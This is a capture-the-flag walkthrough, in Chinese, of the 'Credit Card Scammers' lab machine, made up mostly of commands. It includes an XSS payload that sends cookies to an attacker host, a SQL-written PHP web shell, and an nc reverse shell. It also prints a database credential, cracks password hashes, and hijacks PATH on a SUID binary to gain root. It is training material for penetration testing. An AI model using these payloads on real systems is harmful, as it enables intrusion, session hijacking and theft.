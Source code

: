 # Credit Card Scammers 靶场

# 服务扫描

扫描所执行的命令，执行结果如下

```
sudo nmap -sn 10.10.10.0/24

sudo nmap --min-rate 10000 -p- 10.10.10.31   

sudo nmap -sC -sT -sV -p22,80,443,9090 10.10.10.31 

sudo nmap --script=vuln -p22,80,443,9090 10.10.10.31 
```

![[Pasted image 20250518231731.png]]

## gobuster 爆破目录

在漏洞扫描中发现了许多目录，因此进行更详细的目录爆破

```
sudo gobuster dir -u http://10.10.10.33 -w /usr/share/wordlists/dirb/common.txt
```

![[Pasted image 20250518231937.png]]

# Web 渗透

审计爆破的目录发现在 admin 下有一个登入界面

![[Pasted image 20250518232104.png]]

默认界面能找到提交表单

![[Pasted image 20250518232249.png]]

尝试 XSS 

```
<script>new Image().src="http://10.10.10.5/?c="+document.cookie;</script>
```

![[Pasted image 20250518232421.png]]

kali 架设连接

```
python3 -m http.server 80
```

![[Pasted image 20250518232526.png]]

修改 cookie 登入

![[Pasted image 20250518232609.png]]

注入 sql 反弹 shell

```
SELECT "<?php passthru($_GET['cmd']); ?>" INTO DUMPFILE '/var/www/html/shell.php'
```

```
http://10.10.10.33/shell.php?cmd=pwd
```

![[Pasted image 20250518232715.png]]

连接 shell ，因为防火墙墙掉了不常见端口，因此使用 443 端口

```
nc -e /bin/bash 10.10.10.5 4444
```

以下是提权一阶段代码

```
cat /etc/passwd |grep "/bin/bash"

cd settings

ls

cat config.php
```

![[Pasted image 20250518233122.png]]

```
mysql -uorders -pOb2UA15ubBtzpZrvdMYT orders -e 'SELECT * from users;' 
```

![[Pasted image 20250518233241.png]]

john 破解

![[Pasted image 20250518233304.png]]

ssh 登入

![[Pasted image 20250518233519.png]]

二阶段提权

```
find / -perm -u=s -type f 2>/dev/null

ls

strings /usr/bin/backup

export PATH=.:$PATH

echo $PATH

cd /tmp 

echo '/bin/bash' > tar

chmod 777 tar

/usr/bin/backup
```

![[Pasted image 20250518234002.png]]

